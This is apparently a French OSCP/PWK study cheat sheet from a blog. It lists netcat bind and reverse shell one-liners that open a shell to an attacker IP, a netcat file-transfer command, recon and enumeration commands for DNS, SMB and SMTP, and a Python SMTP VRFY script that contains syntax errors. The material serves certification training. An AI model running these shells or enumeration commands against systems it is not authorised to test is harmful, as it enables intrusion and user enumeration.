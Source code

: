 ```yaml
---
layout: post
title: Cheatsheet - PWK Essentials
subtitle: Résumé PWK - OSCP 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [Cheat sheet, PWK, OSCP, Netcat, Find, Locate, Which, SSH, Apache, Ncat, Transfert fichier, Bind shell, Reverse shell, theharvester, DNS, DNS enumeration, DNS zone transfer, DNSRecon, SMB, SMB enumeration, nbtscan, enum4linux, SMTP enumeration, SMTP, Python, socket, Nmap,  Commandes, Linux, Windows]
comments: false
---
```


** Résumé du PWK - OSCP

# Locate

~~~
root@Host-001:~# locate rockyou.txt
/root/Bureau/SecLists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
/usr/share/wordlists/rockyou.txt
~~~

# Which 

~~~
root@Host-001:~# which python
/usr/bin/python
~~~

# Find 

~~~
root@Host-001:~# find /root -name mimikatz.exe
/root/Bureau/mimikatz.exe
~~~

# SSH

Lancer le service: service ssh start
Verifier que le service est en cours: netstat -antp | grep sshd
Forcer le lancement du service lors du démarrage: update-rc.d ssh enable

# Apache

Lancer le service: service apache2 start
Verifier que le service est en cours: netstat -antp | grep apache
Forcer le lancement du service lors du démarrage: update-rc.d apache2 enable

# Bash

# Netcat

1. Transfert de fichier

Machine réceptrice:

~~~
nc -nlvp PORT ­> file
~~~

Machine émettrice:

~~~
nc -nv IP PORT < file_to_send
~~~

2. Bind shell

Machine cible:

~~~
// Windows
nc -nlvp PORT -e cmd.exe
// Linux
nc -nlvp PORT -e /bin/bash
~~~

Attaquant:

~~~
nc -nv IP_CIBLE PORT
~~~

3. Reverse shell

Attaquant:

~~~
nc -nlvp PORT
~~~

Cible:

~~~
nc -nv IP_ATTAQUANT PORT -e /bin/bash
~~~

# theharvester

theharvester est un outil pour trouver des email durant la phase de reconnaissance

~~~
root@kali:~# theharvester -d cisco.com -b google >google.txt
~~~

# DNS server enumeration

~~~
host -t ns domainname.com
~~~

# Mail server enumeration

~~~
host -t mx domainename.com
~~~

# DNS zone transfert

~~~
//host -l <domain name> <dns server address>
host -l domainname.com ns1.domainname.com

//Avec Nmap
nmap --script=dns-zone-tranfer -p 53 ns1.domainename.com
~~~

# DNSRecon

~~~
dnsrecon -d domainname.com -t axfr
~~~

# Nmap

~~~
//Pour trouver les hotes d'un réseau en complément de netdiscover
nmap -v -sn IP_DEBUT-IP_FIN
~~~

-oG : pour enregistrer dans un fichier 'grep'able
-O : version de l'OS

~~~
//HTB Style
nmap -sC -sV IP
~~~

~~~
//Scan SMB - ports SMB NetBIOS 139 et 445
nmap -v -p 139,445 IP_DEBUT-IP FIN
~~~

~~~
// Script pour détecter l'OS
nmap IP --script smb-os-discovery.nse
~~~

# SMB enumeration

~~~
//nbtscan
nbtscan -r 192.168.1.0/24

//enum4linux
enum4linux -a IP

//scripts nmap
ls -la /usr/share/nmap/scripts/smb*

//check for known SMB protocol vulnerabilities
nmap -v -p 139,445 --script=smb-check-vulns --script-args=unsafe=1 IP
~~~

# SMTP Enumeration

~~~
//Port ouvert ?
nc -nv IP 25
// si ouvert verifier si bob exist
VRFY bob
~~~

Script vrfy.py:

~~~
#!/usr/bin/python
import socket
import sys
if len(sys.argv) != 2:,
	print "Usage: vrfy.py <username>",
	sys.exit(0)
	
# Create a Socket 
s=socket.socket(socket.AF_INET,,socket.SOCK_STREAM),

# Connect to the Server
connect=s.connect(('192.168.11.215',25))

# Receive the banner
banner=s.recv(1024)
print banner 

# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result=s.recv(1024)
print result

# Close the socket
s.close()
~~~

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
